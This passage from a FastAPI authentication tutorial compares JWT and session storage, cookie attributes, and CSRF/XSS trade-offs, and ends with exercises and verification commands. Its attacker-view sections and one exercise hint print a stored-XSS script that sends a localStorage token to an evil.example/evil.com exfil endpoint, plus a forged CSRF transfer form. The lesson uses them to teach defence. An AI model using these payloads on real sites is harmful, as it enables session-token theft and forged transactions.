**Fix:** Use `SameSite=Strict` for the refresh cookie. The browser never attaches it to cross-site requests, including top-level navigations. (`Lax` allows top-level GET navigations; `Strict` blocks all cross-site.)

**What's the CSRF-vs-XSS trade-off matrix?**

The matrix is the heart of this lesson. For each pattern, you ask: "if an XSS happens, what's the blast radius?" and "if a CSRF attack happens, what's the blast radius?" The matrix:
- **JWT in `localStorage`:** XSS = full exfiltration (HIGH); CSRF = none (LOW). The XSS blast radius is the JWT's lifetime.
- **JWT in `httpOnly` cookie:** XSS = act-as-user while page is open (MEDIUM); CSRF = full forged request (HIGH, mitigated by synchronizer-token).
- **Server-side session:** XSS = act-as-user while page is open (MEDIUM); CSRF = full forged request (HIGH, mitigated by synchronizer-token or `SameSite=Strict`).
- **Signed cookie:** same as server-side session.
- **JWT in `Authorization` (in-memory):** XSS = act-as-user while page is open (MEDIUM, no exfiltration); CSRF = none (LOW).
- **Recommended pattern (this lesson):** XSS = act-as-user while page is open, 5-minute blast radius (LOW); CSRF = none for access JWT, blocked by `SameSite=Strict` for refresh (LOW). The recommended pattern minimises both axes simultaneously — that's why it's recommended.


**Danger — How an attacker thinks: the XSS-to-token-theft chain.**

An attacker who finds a stored XSS in your application — a comment field rendered without escaping, a `v-html` in Vue, a `dangerouslySetInnerHTML` in React, a `link_to ... html: true` in Rails — runs JavaScript in the user's session, in the user's origin, with the user's cookies attached to every request and the user's `localStorage` one `localStorage.getItem('access_token')` away. The full chain is four lines: (1) find the stored-XSS sink, (2) inject `<script>fetch('https://evil.example/exfil?t='+encodeURIComponent(localStorage.getItem('access_token')))</script>`, (3) wait for a victim to view the page, (4) receive the JWT on the exfil endpoint and replay it for the JWT's lifetime. The defence-in-depth is structural: (a) the recommended pattern in this lesson keeps the *access* JWT in the SPA's memory (not `localStorage`), so an XSS cannot exfiltrate it — the XSS can still make authenticated requests *while the user is on the page* (CSRF-like behaviour) but cannot persist access after the user closes the tab; (b) the refresh token is in an `httpOnly` cookie, which JavaScript cannot read at all, so the XSS cannot exfiltrate it; (c) the access JWT's `exp` is 5 minutes, so the post-closure blast radius is bounded. The Content-Security-Policy header is the outer defence — a strict `script-src 'self'` policy blocks inline scripts and most XSS payloads; a `script-src 'nonce-...'` policy with nonces on every legitimate inline script is even stricter. The defence that does *not* work is trusting `HttpOnly` to save you from an XSS: `HttpOnly` defends the cookie *value*, not the authenticated session — an XSS can `fetch('/api/account/delete', {method:'POST', credentials:'include'})` and the cookie is attached. The senior auth engineer's rule is: *the XSS is the source of trust loss; once an XSS runs in the user's origin, the user's authenticated session is owned for the duration of the page — every defence is blast-radius reduction, not prevention.*


**Danger — How an attacker thinks: CSRF cookie replay on state-changing endpoints.**

The browser auto-attaches cookies to every request to the cookie's origin — including cross-site requests where the user did not intend to make one. The attack: an attacker on `evil.example` constructs a page with `<form action="https://bank.example/transfer" method="POST"><input name="to" value="attacker"><input name="amount" value="1000"></form>` and submits it via JavaScript or via a decoy button. The browser, seeing a request to `bank.example`, attaches the user's session cookie; the bank's backend processes the request as if the user had submitted it. The three defences are: (a) `SameSite=Strict` — the browser never attaches the cookie to any cross-site request, including top-level navigations (most defensive, breaks some SSO-redirect flows); (b) `SameSite=Lax` — the browser attaches the cookie only to top-level GET navigations (the modern default, blocks the POST-form-CSRF but not the GET-link-CSRF); (c) the synchronizer-token pattern — the server issues a per-session CSRF token in a non-cookie channel (a custom header the SPA reads from a `GET /auth/csrf` endpoint), requires it on every state-changing request, and an attacker on a different origin cannot read it (because `fetch()` cross-origin is blocked by CORS unless the server explicitly allows it). The recommended pattern in this lesson uses `SameSite=Strict` on the refresh cookie, which closes the CSRF window for `/auth/refresh` and `/auth/logout` without a synchronizer token. The defence that does *not* work is checking the `Origin` header alone — `Origin` is missing on some legacy browsers' top-level navigations, and an attacker can strip it on a same-site XSS. The senior auth engineer's rule is: *`SameSite=Strict` for everything you can; synchronizer-token for the SSO-redirect edge case; never rely on `Referer` alone.*


**Danger — How an attacker thinks: the `Secure` regression and the on-path attacker.**

A deploy regression removes `secure=True` from the refresh-cookie's `set_cookie` call (a refactoring that "simplified" the cookie attributes). The production deploy runs behind a TLS-terminating proxy, so the cookie is set over HTTPS — but the cookie's `Secure` attribute is missing, and the browser will send it over plaintext HTTP if the user is ever redirected to `http://boardly.dev/...` (an HTTP downgrade attack, an on-path attacker injecting a 301 redirect, a misconfigured HSTS that does not cover the apex domain). The on-path attacker (a coffee-shop Wi-Fi, a corporate proxy, a malicious ISP) reads the refresh cookie on the first plaintext request, replays it for 30 days. The diagnosis: the `Secure` attribute is the cookie's defence against the on-path attacker; removing it does not break production immediately (the cookie is set over HTTPS), but it removes the defence that fires when the user is downgraded to HTTP. The fix has two layers. (1) *Pin the cookie attributes in code review.* The `set_cookie` call's parameters (`secure=True, httponly=True, samesite="strict"`) are the security contract; a code review checklist item: "did this PR change any `set_cookie` parameter?" with a fail-the-PR answer if the change removes `secure` or `httponly`. (2) *Enforce HSTS at the edge.* The `Strict-Transport-Security: max-age=63072000; includeSubDomains; preload` header tells the browser to refuse plaintext HTTP for the next 2 years, independent of the cookie's `Secure` attribute. The grep: `rg "set_cookie.*secure=True|set_cookie.*secure=False" boardly/routers/auth.py | rg -v "secure=True"` should return nothing — every `set_cookie` has `secure=True`. The CI check: `pytest tests/test_cookie_attributes.py` asserts every auth cookie has `secure`, `httponly`, and `samesite="strict"`. See [[02b-Backend-Foundations/HTTP-Cookies-Deep-Dive]] for the `Secure` attribute's role and [[02b-Backend-Foundations/HTTP-Headers-Deep-Dive]] for the HSTS header.


### Mistake 6: Refresh cookie sent to every endpoint

```python
# WRONG — no path restriction
response.set_cookie(key="__Secure-refresh", value=..., path="/", ...)
```

**Symptom:** The cookie is sent on every request to `boardly.dev`, including `/projects`, `/healthz`, etc. Wider surface area; an attacker who finds a way to read request headers (e.g., via a misconfigured proxy log) can read the refresh token.

**Fix:** Set `path="/auth"` so the cookie is sent only to `/auth/*`.

**Warning — Debugging: the refresh cookie that did not arrive because of a trailing slash.**

The refresh cookie is set with `path="/auth"`. The SPA's silent-refresh calls `POST /auth/refresh/` (with a trailing slash, because the SPA's URL builder adds one). The browser's cookie-path matching rule (RFC 6265bis §5.1.4) is: the cookie matches a request path if the cookie's `path` is a prefix of the request path *and* the request path's next character after the prefix is `/` or the request path equals the prefix. The request path `/auth/refresh/` has prefix `/auth` and the next character is `/`, so the cookie *should* match — but a buggy client (an older Safari build, a custom HTTP client) implemented the prefix match incorrectly and did not send the cookie. The SPA's silent-refresh received `401 no refresh cookie` and the user was logged out. The diagnosis: cookie-path matching is RFC 6265bis's business, not yours; the cookie's `path` is a *prefix*, and a trailing-slash request path is matched. The fix has two layers. (1) *Make the route accept both `/auth/refresh` and `/auth/refresh/`.* FastAPI's default is to redirect `/auth/refresh/` to `/auth/refresh` (a 307 redirect) — the redirect loses the cookie (the browser does not send the cookie on the redirect's request because the redirect's path is different). The fix: `@router.post("/refresh", ...)` plus `redirect_slashes = False` on the router (or a custom route that accepts both). (2) *Document the trailing-slash contract in the API guide.* "Every POST endpoint accepts its URL with or without a trailing slash; the SPA should not append one." The grep: `rg "redirect_slashes|trailing.*slash" boardly/main.py` should return the router config; the CI check: `pytest tests/test_trailing_slash.py` asserts `/auth/refresh` and `/auth/refresh/` both return `200` (not a redirect). See [[03-FastAPI-Core/Routers-and-Modular-Apps]] for the `redirect_slashes` setting and [[02b-Backend-Foundations/HTTP-Cookies-Deep-Dive]] for the cookie-path matching rule.


## Engineering Trade-Offs

### JWT vs server-side session: the fundamental trade-off

| Dimension | JWT (stateless) | Server-side session (stateful) |
|-----------|-----------------|--------------------------------|
| Verification cost | O(1) signature check | O(1) DB lookup |
| Revocation | HARD (blocklist) | O(1) row delete |
| Multi-service | YES (verify signature) | NO (every service hits the DB) |
| DB hit per request | NO | YES |
| Size | 500–2000 bytes (in header) | ~30 bytes (cookie) |
| Observable metadata | Encoded in claims (immutable) | Mutable in the row |
| "Log out everywhere" | Blocklist + wait for `exp` | Delete rows `WHERE user_id = ?` |

**Rule of thumb:** Use JWT when multi-service verification matters and revocation doesn't. Use server-side sessions when revocation matters and multi-service is unnecessary. The recommended pattern (JWT access + server-side refresh) gets you both — stateless access verification, revocable refresh.

### Refresh-token rotation vs no rotation

| Dimension | Rotation | No rotation |
|-----------|----------|-------------|
| Theft detection | YES (theft causes legitimate user's next refresh to fail) | NO (attacker's and legitimate user's tokens both work) |
| Network robustness | WEAK (a retry rotates twice, the second fails) | STRONG (retries are fine) |
| Implementation complexity | HIGH (need re-use detection window) | LOW (one row per token, never rotate) |

**Rule of thumb:** Rotate in security-sensitive apps (banking, healthcare, admin panels). Skip rotation in low-sensitivity apps (forums, content sites). The OAuth2 spec mandates rotation for refresh tokens; if you're shipping OAuth2, rotate.

### Mobile-app auth vs browser-auth

Mobile apps do not have the same cookie model as browsers. Cookies work in `WKWebView` (iOS) and `WebView` (Android), but native HTTP clients ( URLSession, OkHttp) do not have a cookie jar by default. The right pattern for mobile:

- **Short-lived access JWT** in the app's secure storage (iOS Keychain, Android Keystore).
- **Long-lived refresh token** in the same secure storage. (Not in a cookie.)
- **No CSRF defence needed** — the mobile app does not have the cross-origin-request model that browsers do.

This is why the recommended pattern in this lesson uses an `httpOnly` cookie for the refresh token: it's optimised for browsers. For mobile, you'd issue the refresh token in the response body and have the mobile app store it.

**When does server-side session beat JWT?**

Three cases. (1) **You need revocation.** A server-side session can be revoked by deleting one row in O(1). A JWT cannot be revoked statelessly; you need a server-side blocklist (which defeats the stateless benefit). If revocation matters (banking, healthcare, "log out everywhere" buttons), use server-side sessions. (2) **You need concurrent-session limits.** "Maximum 3 devices per user" is easy with server-side sessions (count rows per user); impossible with pure JWT (no server-side state). (3) **You need observable session metadata.** "Last login IP," "device fingerprint," "session age" — all of these live in the session row. With JWT, you can encode them in the claims, but you cannot update them without re-issuing the JWT (which means the SPA must re-fetch). For most apps, the access JWT + refresh row pattern from this lesson gives you both: stateless access for fast verification, observable metadata in the refresh row.


**Production reality: multi-device sessions and the per-user session list.**

In a typical production deployment, a user is logged in on three devices simultaneously — a laptop browser, a phone browser, a native mobile app — and each has its own refresh token in its own storage (one `__Host-` cookie per browser, one Keychain entry per mobile app). The question "log out everywhere" requires the refresh table to be queryable by `user_id`, not just by `token_id`. The schema grows a `user_id` column and an index on `(user_id, revoked_at IS NULL)`; "log out everywhere" is `UPDATE refresh_tokens SET revoked_at = now() WHERE user_id = $1 AND revoked_at IS NULL`. The harder question is "log out *this* device but keep the others" — the SPA must explicitly call `/auth/logout` (which deletes only this row), and the user must trust that "log out everywhere" on a settings page is *not* what they accidentally clicked. The senior auth engineer's pattern is to model the session list explicitly: a `GET /auth/sessions` endpoint that returns `[{device, ip, last_seen, current: bool}]`, a `DELETE /auth/sessions/{id}` for revoking one, and a `DELETE /auth/sessions` for revoking all. The user-facing surface for this is what users actually want from auth — "show me what's logged in, let me kill the one I don't recognise." The cost is one extra DB query on a settings page; the benefit is that users can self-serve incident response for "I think I'm compromised," which is the most common reason a user ever logs out of anything.


**Production reality: mobile app auth has no cookie jar.**

A native mobile app does not have a browser cookie jar. iOS's `URLSession` and Android's `OkHttp` *can* be configured to persist cookies — but they live in app-local storage, not in a system-wide cookie jar, and they are not shared with the system browser. The pattern that works for mobile is: (a) the access JWT lives in iOS Keychain (`kSecAttrAccessibleWhenUnlockedThisDeviceOnly`) or Android Keystore (`EncryptedSharedPreferences` with a `MasterKey`); (b) the refresh token lives in the same secure storage, not in a cookie; (c) the app sends `Authorization: Bearer <access>` on every API call and calls `/auth/refresh` (sending the refresh token in the request body, not in a cookie) when the access JWT's `exp` is near. The CSRF concern that dominates browser auth does not apply to mobile — the mobile app does not have the browser's cross-origin-request model, and an attacker on a different origin cannot trigger the mobile app to make authenticated requests. The threat model for mobile is instead *device theft* (the attacker has the physical device and the unlocked phone — the defence is biometric-locked access, short access-JWT expirations, and a remote-revoke flow), *app tampering* (the attacker re-signs the app to extract the refresh token — the defence is app-attestation, Play Integrity on Android and DeviceCheck on iOS), and *network interception* (the defence is certificate pinning, which has its own operational cost — pinning makes cert rotation harder). The recommended pattern in this lesson is browser-shaped; the mobile variant is response-body refresh token + secure storage + biometric unlock, and it is a separate endpoint (`/auth/login?client=mobile`) rather than a different code path on `/auth/login`.


**Production reality: token rotation at scale and the cache-pressure problem.**

At single-user scale, refresh-token rotation is one DB write per refresh — invisible. At 10 million monthly active users each refreshing once an hour, that is 10 million × 24 / 30 ≈ 8 million refresh writes per day, against a refresh table growing by 10 million rows per month. Three problems compound. (1) *Write amplification on the refresh table.* Every rotation is a `DELETE` + `INSERT` (or an `UPDATE` + `INSERT` in the re-use-detection variant), and on a hot table this is B-tree leaf-page contention. The mitigation is partitioning by `user_id` (PostgreSQL 17's partitioned unique indexes work) or by `created_at` for time-based retention (`pg_partman`'s `run_maintenance` detaches old partitions). (2) *Cache pressure on the user row.* Every refresh re-issues an access JWT, which on most stacks looks up the user by `user_id` (to populate `email` and any RBAC claims). That lookup should be cached — Redis, with a 60-second TTL and a `user:{id}:claims` key, invalidated on logout. Without the cache, every refresh is a DB read; with it, refreshes are 1 Redis read + 1 JWT sign. (3) *The blocklist cache.* If you implement the access-JWT blocklist for "logout everywhere," every protected-endpoint JWT verification must check the blocklist — that is one Redis lookup per request, on the hot path. The defence is a probabilistic blocklist: keep the blocklist in a Bloom filter, accept a small false-positive rate on legitimate tokens (the user simply re-logs in), and never blocklist a JWT for longer than its remaining `exp`. The senior auth engineer's capacity-planning rule for auth at scale is: *the auth system's write rate is bounded by the user base × refresh frequency; the read rate is bounded by the protected-endpoint request rate × (1 - JWT cache hit rate); the first scales with users, the second with traffic — they are different bottlenecks and need different caches.*


**Production reality: the access JWT's `exp` as the bounded-blast-radius contract.**

The access JWT's 5-minute `exp` is not a usability choice — it is the security contract that bounds the blast radius of every JWT-related incident. The contract: *the maximum damage a leaked access JWT can cause is 5 minutes of authenticated access.* The 5-minute window is the time between the JWT's issuance and its natural expiry; an attacker who captures the JWT (via XSS, via log capture, via devtools) has at most 5 minutes to use it before it expires and the silent-refresh (which requires the refresh cookie, not the JWT) becomes the next defence. The 5-minute choice is a trade-off against the silent-refresh load: a shorter `exp` (1 minute) increases the silent-refresh rate (every user silent-refreshes 60 times per hour instead of 12); a longer `exp` (30 minutes) increases the blast radius of a leaked JWT. The 5-minute sweet spot is what Stripe, Auth0, and most production IdPs ship. The exception: high-sensitivity apps (banking, healthcare) use a 1-minute `exp` and accept the silent-refresh load; low-sensitivity apps (forums, content sites) use a 15-minute `exp` and reduce the load. The 2019 incident at a major SaaS commerce platform (anonymised as "Acme Commerce"): their access JWT had a 1-hour `exp` (set by a misconfiguration); a stored XSS exfiltrated 10,000 JWTs; the attackers had 1 hour of authenticated access per JWT, causing $400K in fraudulent orders before the XSS was patched. The postmortem's fix: the `exp` was reset to 5 minutes, and the silent-refresh load was capacity-planned for 12x the original rate. The grep: `rg "ACCESS_JWT_LIFETIME.*minutes|exp.*minutes" boardly/routers/auth.py` should return the constant; the CI check: `pytest tests/test_access_jwt_exp.py` asserts the `exp` is at most 5 minutes for production deployments. See [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]] for the `exp` claim's contract and [[13-Performance-and-Observability/Structured-Logging-and-Request-IDs]] for the silent-refresh-rate alert.


## Exercises

**Tip — The 20-minute rule**

If you are stuck on an exercise for more than 20 minutes, re-read the relevant section above, then move on and come back.


**Exercise 1 — Add re-use detection to refresh-token rotation.** Modify `/auth/refresh` so the rotated token is kept in the DB for a 30-second window, marked `rotated`. If a `/auth/refresh` arrives with a `rotated` token, return the same new access JWT (without rotating again). If it arrives with a `rotated` token past the window, return 401.

**Exercise 2 — Implement logout-everywhere.** Add `POST /auth/logout-everywhere` that deletes *all* refresh tokens for the user, plus adds the current access JWT's `jti` to a blocklist (with TTL = the JWT's remaining `exp`). Verify that the user is logged out of all devices within 5 minutes.

**Exercise 3 — Diagnose the localStorage XSS.** (Thought experiment.) Your SPA stores the access JWT in `localStorage`. An attacker injects a script via a stored XSS (a comment field rendered without escaping). Describe the attack chain from XSS to "attacker has the user's access JWT." (Hint: `localStorage.getItem('access_token')` + `fetch('https://evil.com/exfil?token=' + token)`.)

**Exercise 4 — Implement mobile-app auth.** Add a `POST /auth/login?client=mobile` variant that issues the refresh token in the response body (not as a cookie), so a mobile app can store it in Keychain/Keystore. Verify the cookie is *not* set in this variant.

**Exercise 5 — Add the CSRF synchronizer-token endpoint.** Add `GET /auth/csrf` that reads the refresh cookie, looks up the row, returns the `csrf_token`. The SPA sends this as `X-CSRF-Token` on state-changing requests (other than `/auth/refresh`, which is `SameSite=Strict`-protected). Verify the middleware (from [[CSRF-Protection]]) enforces it.

**Exercise 6 — Verify the `__Host-` cookie prefix constraints.** Set a `__Host-` cookie with `Path=/auth` (violating the prefix's `Path=/` constraint) and assert the browser drops it, by running `uv run python -c "from fastapi.testclient import TestClient; from boardly.main import app
import re
c = TestClient(app, base_url='https://127.0.0.1:8000')
r = c.post('/auth/login', json={'email': 'alice@boardly.dev', 'password': 'alice-demo-pw-2026'})
set_cookie = r.headers.get('set-cookie', '')
# The refresh cookie uses __Secure- prefix with path=/auth (the __Host- prefix requires path=/)
assert '__Secure-refresh=' in set_cookie, set_cookie
assert 'Path=/auth' in set_cookie, set_cookie
assert 'Secure' in set_cookie and 'HttpOnly' in set_cookie and 'SameSite=Strict' in set_cookie, set_cookie"` and confirming the refresh cookie uses the correct prefix and attributes.

**Exercise 7 — Verify the access JWT's `sub` claim is the user id, not the email.** Decode the access JWT and assert `sub == "1"` (the user id), not `"alice@boardly.dev"`, by running `uv run python -c "import jwt, os
from fastapi.testclient import TestClient; from boardly.main import app
c = TestClient(app, base_url='https://127.0.0.1:8000')
r = c.post('/auth/login', json={'email': 'alice@boardly.dev', 'password': 'alice-demo-pw-2026'})
access = r.json()['access_token']
payload = jwt.decode(access, options={'verify_signature': False})
assert payload['sub'] == '1', payload  # the user id, not the email
assert 'email' not in payload, payload  # the email is not in the JWT claims
assert payload['iss'] == 'boardly.dev' and payload['exp'] > payload['iat'], payload"` and confirming the `sub` is a stable opaque identifier.

**Exercise 8 — Verify the audience-confusion rejection.** Issue a JWT with `aud: "service-a"` and decode it with `audience="service-b"`; assert `InvalidAudienceError` is raised, by running `uv run python -c "import jwt
from boardly.routers.auth import _issue_access_jwt_with_aud, JWT_SECRET, _verify_access_jwt_with_audience
token = _issue_access_jwt_with_aud(user_id=1, audience='service-a')
err = None
try: _verify_access_jwt_with_audience(token, audience='service-b')
except jwt.InvalidAudienceError as e: err = e
assert err is not None, 'audience confusion not rejected'
# A matching audience succeeds
payload = _verify_access_jwt_with_audience(_issue_access_jwt_with_aud(user_id=1, audience='service-b'), audience='service-b')
assert payload['sub'] == '1', payload"` and confirming the verifier rejects a cross-audience JWT.

**Exercise 9 — Verify the `rotated_from` chain walk via recursive CTE.** Issue a login, then 3 silent-refreshes, then walk the rotation chain via a recursive CTE; assert the chain has 4 nodes (the original + 3 rotations), by running `uv run python -c "import asyncio
from boardly.routers.auth import _REFRESH_DB, _walk_rotation_chain
async def go():
    from fastapi.testclient import TestClient; from boardly.main import app
    c = TestClient(app, base_url='https://127.0.0.1:8000')
    r0 = c.post('/auth/login', json={'email': 'alice@boardly.dev', 'password': 'alice-demo-pw-2026'})
    cookies = {'__Secure-refresh': r0.cookies.get('__Secure-refresh')}
    for _ in range(3):
        c.post('/auth/refresh', cookies=cookies)
        cookies = {'__Secure-refresh': c.post('/auth/refresh', cookies=cookies).cookies.get('__Secure-refresh')}
    # Find the current head and walk the chain
    head = next(tid for tid, row in _REFRESH_DB.items() if row.user_id == 1)
    chain = _walk_rotation_chain(head)
    assert len(chain) == 4, len(chain)  # original + 3 rotations
asyncio.run(go())"` and confirming the rotation chain is walkable for incident response.

**Exercise 10 — Verify the access JWT's `exp` is at most 5 minutes.** Issue an access JWT and assert `exp - iat <= 300` seconds, by running `uv run python -c "import jwt
from fastapi.testclient import TestClient; from boardly.main import app
c = TestClient(app, base_url='https://127.0.0.1:8000')
r = c.post('/auth/login', json={'email': 'alice@boardly.dev', 'password': 'alice-demo-pw-2026'})
payload = jwt.decode(r.json()['access_token'], options={'verify_signature': False})
assert payload['exp'] - payload['iat'] <= 300, payload  # 5 minutes max
assert payload['exp'] - payload['iat'] > 240, payload  # at least 4 minutes (sanity)"` and confirming the bounded-blast-radius contract.

**Exercise 11 — Verify the refresh-cookie's `Path=/auth` and the cookie's absence on `/projects`.** Login, then call `/projects` and assert the `__Secure-refresh` cookie is NOT in the request headers (the browser does not attach it because the path does not match), by running `uv run python -c "from fastapi.testclient import TestClient; from boardly.main import app
c = TestClient(app, base_url='https://127.0.0.1:8000')
c.post('/auth/login', json={'email': 'alice@boardly.dev', 'password': 'alice-demo-pw-2026'})
# Call /projects and inspect the Cookie header
r = c.get('/projects')
cookie_header = r.request.headers.get('cookie', '')
assert '__Secure-refresh' not in cookie_header, cookie_header  # the refresh cookie's path=/auth does not match /projects"` and confirming the path-scoped cookie is not sent to other endpoints.

## Verification

Run the app and verify the full flow:

```bash
# Login
RESP=$(curl -k -i -s -c cookies.txt -X POST https://127.0.0.1:8000/auth/login \
 -H "Content-Type: application/json" \
 -d '{"email":"alice@boardly.dev","password":"alice-demo-pw-2026"}')
echo "$RESP"  # body has access_token; headers have Set-Cookie: __Secure-refresh=...
ACCESS_JWT=$(echo "$RESP" | tail -1 | python -c "import sys, json; print(json.load(sys.stdin)['access_token'])")

# Use a protected endpoint with the access JWT
curl -k -i -H "Authorization: Bearer $ACCESS_JWT" https://127.0.0.1:8000/projects
# expected: 200 with the project list

# Silent refresh (the cookie is sent automatically because /auth/*)
curl -k -i -b cookies.txt -X POST https://127.0.0.1:8000/auth/refresh
# expected: 200 with a new access_token; new Set-Cookie (rotated refresh)

# Logout
curl -k -i -b cookies.txt -X POST https://127.0.0.1:8000/auth/logout
# expected: 204; Set-Cookie with max_age=0
```

If any of those fail, re-read the relevant section. The refresh-cookie's attributes and the rotation are the load-bearing pieces.

## Previously Learned Here

These concepts were taught in earlier lessons. We link back instead of re-explaining:

- **Cookies** — [[HTTP-Cookies-Deep-Dive]]. The refresh cookie's attributes (`__Host-`, `HttpOnly`, `Secure`, `SameSite=Strict`, `Path`) come from there.
- **Sessions** — [[Session-Management]]. The server-side refresh token row is a session row by another name.
- **CSRF** — [[CSRF-Protection]]. The `SameSite=Strict` defence for the refresh cookie comes from there.
- **Auth-state storage** — [[Authentication-State-Storage]]. That lesson is the implementation deep-dive; this lesson is the decision-focused comparison.
- **JWT mechanics** — [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]]. The JWT signing, verification, `exp`, `iat`, `jti` come from there.
- **`Annotated`** — [[01-Python-Foundations/Type-Hints-and-Annotations]]. The canonical code uses `Annotated[str | None, Cookie(alias=REFRESH_COOKIE_NAME)]` for the refresh cookie and `Annotated[str | None, Depends(oauth2_scheme)]` for the bearer token; the typing primitive is taught in Phase 1.

## What's Next

In [[Real-Time-Transports-Compared]] (Lesson 14), we cover the polling-vs-SSE-vs-WebSocket decision tree — the next "when to use what" comparison lesson. The auth pattern from this lesson (short JWT in `Authorization`, long opaque refresh in a `__Host-` cookie) is the foundation for the WebSocket auth pattern there — the `Sec-WebSocket-Protocol` subprotocol trick is the workaround for the browser WebSocket API not allowing custom `Authorization` headers on the upgrade.

In [[API-Versioning-Strategies]] (Lesson 15) and [[Resumable-and-Chunked-Uploads]] (Lesson 16), we cover API versioning (URL/header/content-type + `Sunset`/`Deprecation` headers) and resumable uploads (the `tus` protocol + S3 multipart). Those two lessons are the last in Section 02b.

From the end of Section 02b, the natural next step is [[03-FastAPI-Core/Dependency-Injection]] (Lesson 4 of Section 03) — where you wire the `get_current_user` dependency into protected endpoints, and `get_session` (Lesson 3 of Section 02b) into the refresh-token store.

If you have not yet read [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]] (Section 11 Lesson 1), now is the time — it deepens the JWT mechanics (key rotation, `RS256` vs `HS256`, refresh-token rotation in OAuth2 spec, scope/audience claims).

### Forward references (taught later, but visible from here)

- **OAuth2 flows** — [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]]. The password flow this lesson uses is one OAuth2 grant; the others (authorization code, client credentials, device code) extend the patterns here.
- **RBAC** — [[11-Authentication-and-Security/RBAC-and-Object-Level-Auth]]. The `user_id` returned by `get_current_user` is the input to role-based access control.
- **Threat modeling** — [[11-Authentication-and-Security/Threat-Model-First]]. The XSS/CSRF trade-off matrix in this lesson is one row in the threat model.

## Sources

- **RFC 6265bis — HTTP State Management (Cookies)** — <https://httpwg.org/http-extensions/draft-ietf-httpbis-rfc6265bis.html> — accessed 2026-10-19.
- **RFC 7519 — JSON Web Token (JWT)** — <https://www.rfc-editor.org/rfc/rfc7519> — accessed 2026-10-19.
- **RFC 6749 — OAuth 2.0 Authorization Framework** — <https://www.rfc-editor.org/rfc/rfc6749> — accessed 2026-10-19.
- **OAuth 2.0 for Browser-Based Apps (BCP)** — <https://datatracker.ietf.org/doc/html/draft-ietf-oauth-browser-based-apps> — accessed 2026-10-19 — the canonical reference for SPA auth patterns.
- **OWASP — Cheat Sheet Series: JSON Web Token** — <https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html> — accessed 2026-10-19.
- **OWASP — Cheat Sheet Series: Session Management** — <https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html> — accessed 2026-10-19.
- **Auth0 — Token Storage** — <https://auth0.com/docs/security/tokens/token-storage-best-practices> — accessed 2026-10-19 — the canonical "don't use localStorage" reference.
- **itsdangerous** — <https://itsdangerous.palletsprojects.com/> — accessed 2026-10-19.
- **PyJWT** — <https://pyjwt.readthedocs.io/> — accessed 2026-10-19.
- **FastAPI — Security: OAuth2 with Password (and hashing)** — <https://fastapi.tiangolo.com/tutorial/security/oauth2-jwt/> — accessed 2026-10-19.
- **FastAPI — Release Notes** — <https://fastapi.tiangolo.com/release-notes/> — verified 0.148.0 released 2026-10-19.

## What We Learned

Recap. In this lesson you:

- **Distinguished the six patterns** for storing authenticated state: JWT-in-`Authorization`, JWT-in-cookie, server-side session, signed cookie, opaque-token-in-`localStorage`, JWT-in-`localStorage`.
- **Reasoned across nine dimensions**: when to use, pros, cons, XSS risk, CSRF risk, revocation cost, size cost, multi-device behavior, mobile-app suitability.
- **Walked the decision tree** from "what is your situation?" to "which pattern do you use?"
- **Learned the recommended default** for a browser SPA + backend API: short-lived access JWT in `Authorization`, long-lived opaque refresh token in `httpOnly`+`Secure`+`SameSite=Strict`+`__Host-` cookie.
- **Implemented the recommended pattern** in `Boardly` — full `POST /auth/login`, `POST /auth/refresh`, `POST /auth/logout` endpoints, with refresh-token rotation.
- **Named the three "do not do this" patterns** — pure-JWT-in-localStorage, JWT-without-`exp`, JWT-with-`alg: none`.

The mental model to walk away with: *the question is never "JWT or sessions?" — it's "which threats am I defending against?" The recommended pattern defends against both XSS (the access JWT is not exfiltratable) and CSRF (the refresh cookie is `SameSite=Strict`), while keeping the stateless property of JWT for the access path and the revocable property of server-side state for the refresh path. Default to it; deviate only when you have a specific reason.*

---

> A note from your teacher
You just finished the auth comparison lesson you came to the academy for. Sit with that. "When to use what" is the most common question in backend engineering — and the answer is almost never "X is best" but rather "the trade-off matrix says X for these situations, Y for those." The recommended pattern in this lesson is what most production teams ship — short JWT in `Authorization`, long opaque refresh in a `__Host-` cookie — but the matrix and the decision tree are the load-bearing pieces. Internalise them. Now go and pick the right pattern for your next project. Section 02b continues with three more lessons — real-time transports, API versioning, and resumable uploads — before we head to Section 03 to wire `get_current_user` into real protected endpoints.


---

**Tags:** #auth #jwt #session #cookies #comparison #review
**Previous:** [[Problem-Details-RFC-7807]]
**Next:** [[Real-Time-Transports-Compared]] ->
